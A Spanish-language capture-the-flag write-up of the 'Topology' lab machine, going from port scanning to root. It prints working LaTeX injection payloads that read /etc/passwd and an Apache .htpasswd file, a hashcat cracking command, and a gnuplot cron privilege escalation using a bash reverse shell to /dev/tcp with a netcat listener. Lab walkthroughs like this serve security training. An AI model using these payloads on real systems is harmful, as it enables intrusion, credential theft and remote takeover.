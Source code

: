 ```yaml
---
title: "Topology"
date: "2025-02-21T17:00:00-05:00"
type: "maquinas"
draft: false
tags: ["crontabs", "linux", "latex", "sudo", "subdominio", "file-read", "apache2", "pspy64", "gnuplot"]
---
```


Una maquina en la que tenemos que hacer una inyeccion latex para poder leer archivos y asi conseguir el hash del usuario para luego mediante una tarea recurrente ganar root
Dificultad: Facil

# Enumeración

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allPorts
```

- `-p-` Escanea todos los puertos `1-65535` .
- `—open` Solo muestra los puertos que esten abiertos.
- `-sS` Stealt scan cambia el modo de escane haciendo que no se complete el hanshake.
- `—min-rate 5000` Como minimo va a enviar 5000 paquetes por segundo.
- `-vvv` Aumenta la verbosidad mostrando la maxima informacion posible mientras se ejecuta.
- `-n` Desactiva la resolucion `DNS` no va a tratar de resolver los nombres de dominio.
- `-Pn` Nmap por default manda un ping a la ip esto lo desactiva.
- `-oG allPorts` Guarda el escaneo en formato `oG` en el archivo llamado `allPorts`.

Este escaneo nos dio dos puertos el 22 y el 80 vamos a hacer un escaneo mas exhaustivo a estos puertos.

```bash
sudo nmap -sCV -p22,80 IP -A -oN target
```

- `-sCV` Esto ejecuta una serie de scripts predeterminados de nmap para obtener información adicional sobre los servicios que se encuentran abiertos, como versiones de servicios, detalles del sistema operativo, vulnerabilidades conocidas y la version exacta.
- `-p22, 80` Especifica que puertos se van a escanear.
- `-A` Activa el descubrimiento de sistema operativo, la deteccion de version, script scanning y hace un traceroute.

<a href="https://imgur.com/u8zXpKh"><img src="https://i.imgur.com/u8zXpKh.png" title="source: imgur.com" /></a>

La pagina http que esta en el puerto 80 usa Apache 2.4.41

## Puerto 80

<a href="https://imgur.com/P2kGwLQ"><img src="https://i.imgur.com/P2kGwLQ.png" title="source: imgur.com" /></a>

Al momento de entrar a el link `“Latex Equation Generator”` es un subdmonio por lo que tendremos que agregarlo al `/etc/hosts` para que nos muestre lo siguiente.

<a href="https://imgur.com/T7QA4dq"><img src="https://i.imgur.com/T7QA4dq.png" title="source: imgur.com" /></a>

Algo que podemos tratar es listar los archivos dentro de este subdmonio por lo que vamos a ingresar a la siguiente url [`http://latex.topology.htb/`](http://latex.topology.htb/equation.php) dejando el ultimo `/` .

<a href="https://imgur.com/aTp681K"><img src="https://i.imgur.com/aTp681K.png" title="source: imgur.com" /></a>

Revisando los archivos lo unico util esta en `equationtest.tex` ya que nos muestra como estan tratando la entrada Latex la web.

```latex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

Podemos observar que la entrada esta entre los signos dolar, leyendo la pagina nos dicen que latex esta en el modo “[inline math](https://www.physicsread.com/latex-math-mode/)” buscando acerca de este modo nos encontramos que hay tres formas de tratar este modo:

1. $ . . .$
2. \begin{math} . . . \end{math}
3. \( . . . \)

# Foothold

Por lo que ahora sabemos porque esta entre esos signos y confirmamos que la entrada va a estar así planeando una inyección.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

Vamos a tratar de empezar a leer archivos del sistema con la inyección de codigo.

```latex
$ \lstinputlisting{/etc/passwd} $
```

<a href="https://imgur.com/eFdUTzY"><img src="https://i.imgur.com/eFdUTzY.png" title="source: imgur.com" /></a>

Una vez confirmamos que podemso leer archivos vamos a empezar a leer archivos de configuracion que nos permitan ingresar al sistema.

```latex
$ \lstinputlisting{/etc/apache2/sites-enabled/000-default.conf} $
```

En este archivo encontramos varios directorios entre ellos uno que pertence al subdominio `dev.topology.htb` lo agregamos al `/etc/hosts` y al ingresar nos pide una contraseña.

Vamos a listar archivos de configuracion por default de apache sobre el directorio correspondiente a este subdominio.

```latex
$ \lstinputlisting{/var/www/dev/.htaccess} $
```

<a href="https://imgur.com/pH0zQXZ"><img src="https://i.imgur.com/pH0zQXZ.png" title="source: imgur.com" /></a>

Por ultimo vamos a listar este archivo.

```latex
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```

Nos vamos a encontrar un usuario junto con su hash, vamos a copiarlo y guardarlo en un archivo `.txt` para hacerle fuerza bruta con `hashcat`:

```python
hashcat hash.txt --wordlist /usr/share/wordlist/rockyou.txt --user
```

Esto nos dara su contraseña para iniciar sesion mediante ssh.

# Root

## Enumeración

Primero vamos a hacer el tratamiento de la shell 

```bash
export TERM=xterm
```

Listo ahora vamos a tratar de listar archivos y permisos a ver si encontramos algo, pero nos daremos cuenta rapidamente que no tenemos permitido el uso de sudo ni ningun permiso extraño por lo que lo unico que tiene algo interesante son las crontab pero no nos permite listarlas por lo que vamos a usar la herramienta [Pspy](https://github.com/DominicBreuker/pspy/tree/master).

```bash
#Maquina atacante 
python3 -m http.server 80

#Maquina victima
wget IP/pspy64
chmod +x pspy64 
./pspy64
```

Luego de ejecutar el ultimo comando si esperamos un rato podremos ver que hay una script que se ejecuta cada minuto `/opt/gnuplot/getdata.sh` .

<a href="https://imgur.com/9ry28PV"><img src="https://i.imgur.com/9ry28PV.png" title="source: imgur.com" /></a>

Si analizamos esta salida nos daremos cuenta que lo que se esta haciendo cada minuto es buscar en el directorio `/opt/gnuplot/` todos los archivos con extension `plt` y los ejecuta.

Si tratamos de ingresar al directorio no nos lo permite pero en cambio si creamos un archivo y lo movemos a esa direccion no habra ningun conflicto. Buscando escalaciones de privilegios con `gnuplot` que es el binario que se ejecuta encontramos la siguiente [Exploit](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/gnuplot-privilege-escalation).

```bash
#Maquina atacante
nc -lvnp 4444

#Maquina victima
nano rev.plt

system "bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'"

mv rev.plt /opt/gnuplot/
```

Con esto tendremos acceso como root y habremos completado la maquina.
